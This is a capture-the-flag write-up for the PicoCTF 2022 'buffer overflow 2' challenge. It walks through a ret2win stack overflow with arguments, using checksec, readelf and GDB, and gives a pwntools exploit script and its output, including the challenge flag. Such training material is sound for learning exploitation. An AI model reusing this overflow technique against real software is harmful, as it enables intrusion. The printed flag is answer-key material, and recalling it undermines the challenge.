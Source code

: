 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 2"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


A ret2win challenge that involves parameters on the call stack.

Referring to the following diagram,
![Call Stack](https://avinetworks.com/wp-content/uploads/2020/06/buffer-overflow-diagram.png)
We note the relative locations of the base pointer, return function and parameters on our call stack. This will come in handy later.


## My Solution
As usual, we will look at the `vuln` binary. Using `checksec`, we observe the following:
```bash
$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
From this, we can crucially see that the file is a 32-bit little-endian ELF file with no stack canary. NX is enabled, but I don't think this will affect our approach for this challenge.

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
As mentioned earlier, parameters are involved in this challenge. We can see that the `win()` function takes in two parameters, `arg1` and `arg2`. Within the function, we can see that the win condition is fulfilled if and only if `arg1` and `arg2` are equivalent to `0xCAFEF00D` and `0xF00DF00D`.

Aside from this, nothing else seems out of the ordinary. We'll just need to insert our parameters into the call stack when we run our exploit.

Now, let's use `readelf` to find the function addresses.
```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
...
73: 08049372   122 FUNC    GLOBAL DEFAULT   15 main
...
```
For this challenge, we'll note down that the addresses of `win()` and `main()` are `0x08049296` and `0x08049372` respectively.

Let's find the offset to EIP using GDB.
```bash
$ gdb vuln
>> ...
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
...
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
Therefore, the offset to EIP is 112.

We can now craft our exploit. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 51325) # for remote execution

# payload buffer
payload = b'A' * 112 # offset
payload += p32(0x08049296) # win()
payload += p32(0x08049372) # main() - return function address
payload += p32(0xCAFEF00D) # param 1
payload += p32(0xF00DF00D) # param 2

p.recvline().decode("utf-8")
p.sendline(payload)
print(p.recvall())
```
```bash
[+] Opening connection to saturn.picoctf.net on port 51325: Done
picoCTF{argum3nt5_4_d4yZ_59cd5643}Please enter your string:

[*] Closed connection to saturn.picoctf.net port 51325
```


## Learning Takeaways
### How is this any different from a typical 32-bit ret2win challenge?
Recall that parameters are involved. This means that we need to craft our payload in such a manner that it can emulate a "normal" call stack.

For a standard 32-bit ret2win challenge, all we need to do is insert the address of our flag/win function into the buffer (which exists on the call stack). This was seen from our solution to the [buffer overflow 1](https://yhwong20.github.io/picoctf/binary%20exploitation/buffer-overflow-1/) challenge. This would alter the execution flow of our program, as we are now artificially inducing the execution of our flag function, by inserting it into the call stack.

What's different here, is that `win()` takes in 2 parameters. Hence, we need to add in these parameters into the call stack to trigger the win condition. If we do not insert the correct parameters, or if parameters are missing, it will cause the program to not execute correctly.

### Why does the payload look like that?
Recall the diagram of the call stack which was shown earlier, and the relative order of each region on the stack.

Firstly, for us to reach and overwrite the region of the call stack which stores parameters, we will need to go through the 4 byte space which stores the address of our return function. This means that the address of the return function must be added to the payload (after `win()`).

Normally, the return function would be `main()`, and this is also why I've chosen to preserve it in the payload (to ensure the program can run properly). However, I think it is also possible to insert any arbitrary address into the return address space (I've tried inserting `0x0` which worked just as fine). Ultimately, we just want to preserve the relative order of the stack in the payload, and this means that the return function address must be present.

Next, we'll insert our parameters. As per the **cdecl** calling conventions, which are used for x86 32-bit binaries, parameters are stored on the call stack in reverse order (generally speaking, the last argument is pushed onto the stack first, and the first argument is pushed last). This means that `arg2` is passed onto the call stack before `arg1`, and consequently, `arg2` is higher in memory than `arg1`. Since we want to emulate the call stack using our payload, we have to preserve the relative ordering of parameters as well.

Thus, we craft the payload in such a manner to ensure that `arg2` is higher in memory than `arg1`, and `win()` is as low in memory as possible (after the buffer). The earlier we insert something into the payload, the lower it should exist in memory, and this helps us maintain the relative structure and order of the call stack.


## References
- [John Hammond (YouTube): Pwntools & GDB for Buffer Overflow w/ Arguments (PicoCTF 2022 #43 'buffer-overflow2')](https://www.youtube.com/watch?v=26mEa1Ojux8&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=44)
- [CTF 101 - Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)
